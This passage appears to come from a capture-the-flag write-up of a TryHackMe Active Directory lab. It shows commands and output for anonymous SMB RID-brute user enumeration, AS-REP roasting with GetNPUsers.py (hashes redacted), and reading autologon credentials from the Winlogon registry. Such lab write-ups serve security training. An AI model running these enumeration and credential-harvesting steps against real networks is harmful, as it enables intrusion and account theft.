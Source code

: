 Since anonymous users have read access to the `IPC$` share on SMB, we can use this to enumerate users with RID bruteforce.

```console
$ cme smb haystack.thm.corp -u 'anonymous' -p '' --rid-brute 1500
...
SMB         haystack.thm.corp 445    HAYSTACK         1111: THM\3091731410SA (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1112: THM\ERNESTO_SILVA (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1113: THM\TRACY_CARVER (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1114: THM\SHAWNA_BRAY (SidTypeUser)
...
SMB         haystack.thm.corp 445    HAYSTACK         1147: THM\AUGUSTA_HAMILTON (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1148: THM\TREVOR_MELTON (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1149: THM\LEANN_LONG (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1150: THM\RAQUEL_BENSON (SidTypeUser)
...
```
Creating a list of valid usernames.

```console
$ cme smb haystack.thm.corp -u 'anonymous' -p '' --rid-brute 1500 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > valid_usernames.txt
```

### AS-REP Roast

With a list of valid usernames, we can test them for AS-REP Roast.

```console
$ GetNPUsers.py -request -format john -usersfile valid_usernames.txt thm.corp/

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
...
$krb5asrep$ERNESTO_SILVA@THM.CORP:[REDACTED]
...
$krb5asrep$TABATHA_BRITT@THM.CORP:[REDACTED]
...
$krb5asrep$LEANN_LONG@THM.CORP:[REDACTED]
...
```

Cracking the hashes, we get the password for `TABATHA_BRITT`.

### Finding credentials for automate

As `TABATHA_BRITT`, we can get access to the machine using `RDP` and find the autologon credentials for `automate` inside `HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` registry.

![WinLogon Credentials for automate](WinLogonCredentials.webp){: width="800" height="200" }